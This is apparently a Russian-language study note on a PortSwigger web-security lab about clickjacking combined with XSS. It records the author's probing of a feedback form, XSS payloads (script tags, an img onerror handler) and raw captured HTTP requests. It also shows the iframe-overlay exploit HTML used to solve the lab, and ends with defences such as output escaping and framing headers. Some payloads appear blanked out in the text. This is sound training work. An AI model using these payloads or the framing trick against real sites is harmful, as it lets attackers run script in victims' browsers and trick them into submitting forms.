





лаба https://portswigger.net/web-security/clickjacking/lab-exploiting-to-trigger-dom-based-xss

задание
нужно создать кнопку `"Click me"` при нажатии на которую сработает js код и выполнит `print()`

------

ищу эту xss..
на сайте два потенциальных места 
1. коммент под постами
2. отправка отзыва

------

разведка xss в полях отзыва, глянем - че дальше будет с этим делом




смотрю код стр и вижу там это теперь

```html
<span id="feedbackResult">Thank you for submitting feedback, <script>print(1)</script><script>print("1")</script> !</span>
```

то есть то что в поле Name - отражается на странице!

нужно только выйти из `</span>`

-----

вот так jотправляю снова `</span><script>print(1)</script><span>`

теперь код такой
```html
<span id="feedbackResult">Thank you for submitting feedback, <script>print(1)</script><span>!</span></span>
```

стоит защита, он экранирует и передвигает мои теги!!! совсем офигел!

----

база [[0_XSS_base_Theory]]
```html
<!-- Базовый тест -->
https://example.com/page?name=<script>alert(1)</script>

<!-- поле нейм подставлялось в значение прямо в html без валидации -->

<!-- Если фильтруют тег script -->
https://example.com/page?name=

<!-- Выход из атрибута тега -->
https://example.com/page?user="><script>alert(1)</script>
```


пробую через атрибут

```html

```

и вуаля - все сработало! алерт есть - а значит и XSS есть!!! отражеррный xss , красотень!!!




-------

вот сам запрос с xss на отправку отзыва

```http
POST /feedback/submit HTTP/2
Host: 0a210069036e684b801912c200550042.web-security-academy.net
Cookie: session=LGkKL4zweAkWraoaWLriQAGXHC39d6cz
Content-Length: 129
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a210069036e684b801912c200550042.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a210069036e684b801912c200550042.web-security-academy.net/feedback
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

csrf=Z5qVYh0UYmdT4ges6dJfkyZjGgkjzro9&name=%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E&email=hacker%40bk.ru&subject=12345&message=er
```
стоит csrf токен...


------

а вот и сама стр где есть эта форма фитбека
```http
GET /feedback HTTP/2
Host: 0a210069036e684b801912c200550042.web-security-academy.net
Cookie: session=LGkKL4zweAkWraoaWLriQAGXHC39d6cz
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a210069036e684b801912c200550042.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

`https://0a210069036e684b801912c200550042.web-security-academy.net/feedback`

----

беру классику

```html
<style>
    iframe {
        position: relative;
        width: 900px;
        height: 900px;
        opacity: 0.4;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 780px;
        left: 70px;
        z-index: 1;
    }
</style>
<div>click</div>
<iframe id="https://0a210069036e684b801912c200550042.web-security-academy.net/feedback" src="https://0a210069036e684b801912c200550042.web-security-academy.net/feedback" sandbox="allow-forms"></iframe>

```

работает - отлично!! - теперь нужно придумать то - как заполнить все эти несколько полей автоматически при открытии страницы!!




-----

попробую через параметры

я взял втупую параметры
`name=%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E&email=hacker%40bk.ru&subject=12345&message=er`

и подставил их в запрос который открывает форму - и параметры сами подставились какого-то куя!! сами!!!
я очень сомневаюсь в том, что на обычных сайтах такое может быть..
ну ладно...




тогда url будет такой:
`https://0a210069036e684b801912c200550042.web-security-academy.net/feedback?name=%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E&email=hacker%40bk.ru&subject=12345&message=er`

ну а скрипт такой:

```html
<style>
    iframe {
        position: relative;
        width: 900px;
        height: 900px;
        opacity: 0.4;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 795px;
        left: 70px;
        z-index: 1;
    }
</style>
<div>click</div>
<iframe id="https://0a210069036e684b801912c200550042.web-security-academy.net/feedback" src="https://0a210069036e684b801912c200550042.web-security-academy.net/feedback?name=&email=hack223er@bk.ru&subject=12345&message=er" sandbox="allow-forms"></iframe>

```

при открытии скрипта - все выглядит как надо!




но когда нажимаю на "клик" то не вижу принта , вижу просто сервый экран и две скобы {}

я заметил - что не выполняется js код в принте когда я через скприпт заполняю поля и нажимаю на отправить
но когда без скрипта тоже самое делаю - то все норм срабатывает в том числе и принт

-----

```html
<style>
    iframe {
        position: relative;
        width: 900px;
        height: 900px;
        opacity: 0.4;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 795px;
        left: 70px;
        z-index: 1;
    }
</style>
<div>click</div>
<iframe id="https://0a210069036e684b801912c200550042.web-security-academy.net/feedback" src="https://0a210069036e684b801912c200550042.web-security-academy.net/feedback?name=&email=hacker@bk.ru&subject=12345&message=er" sandbox="allow-forms"></iframe>

```
нет принта!
`#feedbackResult`

-----

когда без скрипта делаю принт

то вот отпрвка формы (просто руками сам отправляю через сайт)

```http
POST /feedback/submit HTTP/2
Host: 0a210069036e684b801912c200550042.web-security-academy.net
Cookie: session=LGkKL4zweAkWraoaWLriQAGXHC39d6cz
Content-Length: 128
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a210069036e684b801912c200550042.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a210069036e684b801912c200550042.web-security-academy.net/feedback
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

csrf=Z5qVYh0UYmdT4ges6dJfkyZjGgkjzro9&name=%3Cimg+src%3Dx+onerror%3Dprint%28%29%3E&email=hacker%40bk.ru&subject=12345&message=r3

ответ

HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 2

{}

---

и тут же выскакивает автоматически запрос из скприпта

GET /x HTTP/2
Host: 0a210069036e684b801912c200550042.web-security-academy.net
Cookie: session=LGkKL4zweAkWraoaWLriQAGXHC39d6cz
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a210069036e684b801912c200550042.web-security-academy.net/feedback
Accept-Encoding: gzip, deflate, br
Priority: i


и потом выскакивает принт!
```

-----

а вот запросы коорые происходят если я делаю отправку форму через скрипт

```http
POST /feedback/submit HTTP/2
Host: 0a210069036e684b801912c200550042.web-security-academy.net
Cookie: session=LGkKL4zweAkWraoaWLriQAGXHC39d6cz
Content-Length: 128
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: null
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: iframe
Sec-Fetch-Storage-Access: active
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=Z5qVYh0UYmdT4ges6dJfkyZjGgkjzro9&name=%3Cimg+src%3Dx+onerror%3Dprint%28%29%3E&email=hacker%40bk.ru&subject=12345&message=er


-----
ответ 
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 2

{}

-----

и все, скрипт не выполняется и нет заппроса  GET /x HTTP/2

то есть тупо - скрипт не выполняется, 

```

------

я заметил разницу!! епта!

когда руками отправляю запрос -
то там запрос с
`Origin: https://0a210069036e684b801912c200550042.web-security-academy.net`

но когда через скрипт
то там 
`Origin: null`

нужно этот ориджин добавить в скприпт!

-----

я добавил разрешений в sandbox 
`sandbox="allow-forms allow-scripts allow-same-origin"`

```html
<style>
    iframe {
        position: relative;
        width: 900px;
        height: 900px;
        opacity: 0.4;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 795px;
        left: 70px;
        z-index: 1;
    }
</style>
<div>click</div>
<iframe id="https://0a210069036e684b801912c200550042.web-security-academy.net/feedback" src="https://0a210069036e684b801912c200550042.web-security-academy.net/feedback?name=&email=hacker@bk.ru&subject=12345&message=er" sandbox="allow-forms allow-scripts allow-same-origin"></iframe>

```

УРА!!!!! все сработало!!

отправил жертве и лаба решена!!

-----

## выводы

в этой лабе я использовал dom-based xss в форме обратной связи

уязвимость была в параметре name который вставлялся на страницу без экранировани

я внедрил payload `` через url параметры формы

затем я загрузил страницу с этим payload в iframe и наложил сверху свою кнопку click me

ключевой момент оказался в атрибуте sandbox

когда я использовал только `sandbox="allow-forms"` запрос на отправку формы уходил с заголовком `Origin: null` и xss не срабатывал, но когда я добавил `allow-scripts allow-same-origin` то - запрос стал уходить с правильным origin и print выполнился

кнопка click накладывалась на кнопку отправки формы

### защита

от таких атак защищаются на нескольких уровнях

во первых нужно экранировать пользовательский ввод на всех страницах чтобы xss был невозможен

во вторых форма не должна принимать данные для заполнения через get параметры особенно для чувствительных действий, этот момент мне до сих пор кажется странным, зачем делать такой функционал? 

в третьих нужно запрещать загрузку сайта в iframe с помощью заголовков X-Frame-Options или Content-Security-Policy. в этой лабе не было защиты от фрейминга, поэтому атака сработала